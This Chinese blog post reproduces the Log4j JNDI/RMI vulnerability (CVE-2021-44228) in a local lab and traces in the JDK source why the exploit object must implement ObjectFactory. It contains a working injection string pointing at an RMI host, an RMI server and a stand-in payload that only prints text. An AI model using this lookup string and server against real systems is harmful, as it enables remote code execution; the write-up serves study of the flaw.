 ```yaml
---
title: Log4j CVE-2021-44228漏洞复现
date: 2024-01-23 22:43:18
tags: 
  - Java
  - 安全
---
```


# Log4j 依赖版本

```yml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

> 也贴一下log4j的配置文件，和漏洞没有联系

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="INFO">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```

# 漏洞复现

**Log4jTest.java**

```java
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Test {

  private static final Logger LOGGER = LogManager.getLogger();

  public static void main(String[] args) {
    String foo = "bar";
    String os = "${java:os}";
    LOGGER.info("foo, {}!", foo);
    LOGGER.info("os, {}!", os);
  }
}
```

上述代码执行结果:

```markdown
23:18:16.262 [main] INFO  org.example.Log4j2Test - foo, bar!
23:18:16.264 [main] INFO  org.example.Log4j2Test - os, Mac OS X 13.3.1 unknown, architecture: x86_64-64!
```

可以看到 `LOGGER.info("os, {}!", os);` 这段代码并不是将字符串打印出来，而是将其认为是代码再执行了一次，获取了系统信息。这是Log4j为了开发者使用方便而提供的一个[功能](https://logging.apache.org/log4j/2.x/manual/lookups.html)。而这也带来了安全问题。

攻击者可以构造恶意的RMI请求，向服务器发送请求并执行恶意代码。该攻击输入JNDI攻击，通过RMI请求将恶意代码注入到服务器中。

> RMI (Remote Method Invocation) 是 Java 中用于实现远程过程调用的机制。它允许在不同的 Java 虚拟机（JVM）之间进行通信，并调用远程对象上的方法，就像调用本地对象的方法一样。

**Log4jTest.java**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Test {

  private static final Logger LOGGER = LogManager.getLogger();

  public static void main(String[] args) {
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    String rmi = "${jndi:rmi://192.168.31.120:1099/evil}";
    LOGGER.info("rmi, {}!", rmi);
  }
}
```

RMI服务端代码 **RmiServer.java**

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("Create RMI registry on port 1099");

            Reference reference = new Reference("com.example.rmi.EvilObj", "org.example.rmi.EvilObj", "");
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("evil", wrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

恶意代码 **EvilObj.java**

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilObj implements ObjectFactory {

    static {
        System.out.println("evil code");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return new EvilObj();
    }
}
```

先起 RMI 服务，再起 **Log4jTest.java**，可以看到 **Log4jTest.java** 的控制台输出了 RMI 服务的恶意代码。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-23-23-44-05.png)

# 复现时遇到的问题

## JDK版本过高

JDK在各个大版本中的某些小版本后将如 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值改为 `false`，导致启动报错，按照上述代码设置将该值改为 `true`即可。

## 无法获取远程对象

这时的 EvilObj.java 代码是这样的:

```java
public class EvilObj {
  static {
    System.out.println("evil code");
  }
}
```

没有实现 `ObjectFactory` 接口。

> 看别人复现时也没有实现这个接口，但是就是可以的。

表现形式如图：

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-23-23-52-04.png)

可以看出对象并没有实例化出来，静态代码块也没有执行。

或者是报错

```markdown
Error looking up JNDI resource [rmi://192.168.31.120:1099/evil]. javax.naming.NamingException [Root exception is java.lang.ClassCastException: org.example.rmi.EvilObj cannot be cast to javax.naming.spi.ObjectFactory]
```

> 在写文章之前 只有第一个问题，但是复现不了，而是出现了第二个问题。但是都是同样的解决方式。

根据JDK版本过高的导致报错可以到其中源码查看对象是如何实例化的。报错的位置是 `com.sun.jndi.rmi.registry.RegistryContext.decodeObject`。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-09-08.png)

1. 在这处报错其实就可以看到JDK版本过高，将该值默认关闭了，打开就好。
2. getObjectInstance 见名知意，就是实例化对象用的。

可以看到var3就是在RMI中的Reference对象。

```java
Reference reference = new Reference("com.example.rmi.EvilObj", "org.example.rmi.EvilObj", "");
```

再进入这个方法看看，这个方法可以简单的分为两部分。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-19-38.png)

1. 第一部分去拿设置在 `NamingManager` 中的对象实例化工厂，去实例化对象。但是没有拿到工厂对象，是一个 `null`。
2. 所以到了第二步，第二步是去 `Reference` 对象中拿取工厂对象，然后去实例化对象。而这个其实是有点眼熟的。可以看下 `Reference` 的构造方法。


![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-28-02.png)

该构造方法是需要传入对象工厂的。

再进入获取对象工厂的方法 `getObjectFactoryFromReference` 中看看实现，有这么一个 ObjectFactory 的强转操作，即没有实现这个接口就会报上面说的强转失败报错。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-38-40.png)

获取工厂成功后，就调用实现接口的 `getObjectInstance` 方法去实例化对象。

---

- [Log4j Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
- [Log4j高危漏洞！具体原因解析！全网第一！](https://www.bilibili.com/video/BV1FL411E7g3/?spm_id_from=333.337.search-card.all.click&vd_source=6f99bcf527e78fa16b53211c455ca619)